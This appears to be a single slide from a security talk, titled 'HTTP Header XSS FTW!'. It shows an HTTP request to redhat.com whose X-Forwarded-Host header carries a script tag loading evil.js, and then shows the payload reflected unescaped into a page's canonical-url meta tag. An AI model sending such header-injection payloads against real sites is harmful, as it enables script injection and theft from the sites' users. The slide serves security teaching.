

HTTP Header XSS FTW!

GET /en?test=1 HTTP/1.1
Host: redhat.com
X-Forwarded-Host: A”><script src=evil.js></script>

output:
…
<meta canonical-url=“https://A"><script src=evil.js></script>